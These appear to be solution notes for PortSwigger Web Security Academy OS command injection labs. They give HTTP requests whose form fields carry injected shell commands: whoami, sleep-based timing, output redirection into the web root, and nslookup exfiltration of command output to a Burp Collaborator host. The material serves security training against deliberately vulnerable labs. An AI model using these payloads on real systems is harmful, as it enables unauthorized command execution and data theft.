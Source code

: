 ## Lab - 1: OS command injection, simple case

```
POST /product/stock HTTP/1.1
...
Referer: https://0af300780436dfe1c01a0fcf00e500a9.web-security-academy.net/product?productId=1
...

productId=1&storeId=1|whoami
```

## Lab - 2: Blind OS command injection with time delays

```
POST /feedback/submit HTTP/1.1
...
Referer: https://0a80001303ab17adc04691580066009d.web-security-academy.net/feedback
...

csrf=CHt9Kb30ZQkTSwACtbyri7QdKYWVHre4&name=test&email=test%40gmail.com||+sleep+10s+#&subject=Test+subject&message=Test+message
```

## Lab - 3: Blind OS command injection with output redirection

- submit feedback is vulnerable to OS injection
- test where it is vulnerable by above methods
- `/var/www/images` path is writable and save the result in that path

```
POST /feedback/submit HTTP/1.1
...
Referer: https://0ab8009204e76c79c015560d00420073.web-security-academy.net/feedback
...

csrf=XQsZF7rH1iJqdZr1MW0s7AtL7N2KGJMF&name=Test&email=test%40gmail.com%26+whoami+>+/var/www/images/whoami.png+%23&subject=Test+subject&message=Test+message
```

## Lab - 4: Blind OS command injection with out-of-band interaction

- The application executes a shell command containing the user-supplied details. The command is executed asynchronously and has no effect on the application's response. It is not possible to redirect output into a location that you can access. However, you can trigger out-of-band interactions with an external domain.

```
POST /feedback/submit HTTP/1.1
...
Referer: https://0ac300de04a31a9ec0538c0b00a10098.web-security-academy.net/feedback
...

csrf=IzRY4UoLitvaWBIbL3LsJMqfmRVFsXwj&name=Test&email=test%40gmail.com%26+nslookup+`whoami`.lj8qr2ywkx0a1ck7x286sxon5eb4zt.burpcollaborator.net+%23&subject=Test+subject&message=Test+Message
```

## Lab - 5: Blind OS command injection with out-of-band data exfiltration

```
POST /feedback/submit HTTP/1.1
...
Referer: https://0ac300de04a31a9ec0538c0b00a10098.web-security-academy.net/feedback
...

csrf=IzRY4UoLitvaWBIbL3LsJMqfmRVFsXwj&name=Test&email=test%40gmail.com%26+nslookup+`whoami`.lj8qr2ywkx0a1ck7x286sxon5eb4zt.burpcollaborator.net+%23&subject=Test+subject&message=Test+Message
```

From Burp Collaborator Client, click `Poll now` and from DNS results,`The Collaborator server received a DNS lookup of type A for the domain name peter-axW0eL.uxvk7rww9jerxjwicuxiozhuvl1bp0.burpcollaborator.net.`
